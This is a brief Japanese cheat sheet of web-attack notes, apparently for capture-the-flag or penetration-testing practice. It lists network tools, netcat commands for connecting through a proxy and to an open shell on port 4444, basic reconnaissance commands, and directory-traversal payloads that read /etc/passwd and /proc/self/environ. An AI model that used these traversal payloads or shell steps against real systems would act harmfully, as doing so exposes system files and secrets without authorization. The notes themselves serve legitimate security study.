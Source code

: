 # Web

## ツール

- Wireshark
- Python
  - Scapy
  - dpkt
- nc

  ```bash
  # -cで改行入力を待つ。-xでプロキシ経由
  nc -c -X connect -x localhost:8080 localhost 80
  GET / HTTP/1.1
  Host: 127.0.0.1

  # 接続後各種コマンド実行
  nc localhost 4444
  exec id
  ```

- 基本情報取得

  ```bash
  id
  whoami
  uname -a
  ls -lahF
  ```

## ディレクトリトラバーサル

```bash
../../../../../../../../../../etc/passwd
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/maps
```
